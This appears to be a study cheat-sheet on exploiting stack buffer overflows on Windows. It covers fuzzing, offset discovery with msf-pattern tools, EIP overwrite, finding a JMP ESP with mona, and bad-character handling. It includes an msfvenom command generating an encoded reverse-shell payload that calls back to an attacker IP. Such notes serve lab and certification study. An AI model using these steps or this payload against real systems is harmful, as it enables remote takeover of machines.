 # General information

The process of discovering and exploiting a BOF requires some steps:

1. Use a fuzzer to get the exact Bytes to crash the app:

```python
size = 10

while (size < 200):
  buffer = "A" * size
  size += 10

```

2. Generate a custom script to replicate the crash:

```bash
buffer = "A" * XXXX
```

3. Extract exact offset with msf-pattern_create and msf-pattern_offset.

```python
msf-pattern_create -l XXX
msf-pattern_offset -l XXX -q XXX
```

4. Test EIP with "B" values:

```python
filler = "A" * $ExactOffset
eip = "B" * 4
offset = "C" * 20
```

5. Locate space for the shellcode (increasing number of C's).
6. Locate badchars.
7. Find an address to direct the flow (JMP ESP?) that is static and doesn't contain bad chars:

```bash
!mona modules
>msf-nasm_shell
>JMP ESP
!mona find -s "\xff\xe4" -m "$MODULENAME" #Module with no security features.

If address is 0x10090c83 we should add into the code in reverse:
eip = "\x83\x0c\x09\x10"
```

8. Generate shellcode without badchars.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.139 LPORT=444 -f c EXITFUNC=thread -e x86/shikata_ga_nai -b "\x00\x20"
```

9. shellcode is Encoded? Add some NOPs.

```bash
filler = "A" * $ExactOffset
eip = "\x\x\x\x"
offset = "C" * 4
nops = "\x90" * 10
shellcode = "\x\x\x\x...."
```

